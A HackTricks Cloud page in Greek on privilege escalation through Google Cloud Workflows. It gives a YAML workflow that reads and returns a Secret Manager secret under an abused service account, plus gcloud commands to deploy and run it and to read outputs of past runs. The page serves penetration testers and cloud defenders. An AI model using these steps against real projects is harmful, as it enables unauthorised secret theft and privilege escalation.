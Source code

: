 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Όπως γνωρίζω, δεν είναι δυνατόν να αποκτήσετε ένα shell με πρόσβαση στο endpoint μεταδεδομένων που περιέχει τα διαπιστευτήρια SA του SA που επιτίθεται σε ένα Workflow. Ωστόσο, είναι δυνατόν να καταχραστείτε τις άδειες του SA προσθέτοντας τις ενέργειες που πρέπει να εκτελούνται μέσα στο Workflow.

Είναι δυνατόν να βρείτε την τεκμηρίωση των συνδετήρων. Για παράδειγμα, αυτή είναι η [**σελίδα του συνδετήρα Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Στη γραμμή πλοήγησης είναι δυνατόν να βρείτε αρκετούς άλλους συνδετήρες.

Και εδώ μπορείτε να βρείτε ένα παράδειγμα ενός συνδετήρα που εκτυπώνει ένα μυστικό:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Ενημέρωση από το CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Αν δεν έχετε πρόσβαση στο διαδίκτυο, είναι δυνατόν να ενεργοποιήσετε και να δείτε την εκτέλεση ενός Workflow με: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Μπορείτε επίσης να ελέγξετε την έξοδο προηγούμενων εκτελέσεων για να αναζητήσετε ευαίσθητες πληροφορίες
{% endhint %}

Σημειώστε ότι ακόμη και αν λάβετε ένα σφάλμα όπως `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` επειδή δεν έχετε αυτή την άδεια, η ροή εργασίας έχει δημιουργηθεί.

### `workflows.workflows.update` ...

Με αυτή την άδεια αντί για `workflows.workflows.create` είναι δυνατόν να ενημερώσετε μια ήδη υπάρχουσα ροή εργασίας και να εκτελέσετε τις ίδιες επιθέσεις.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
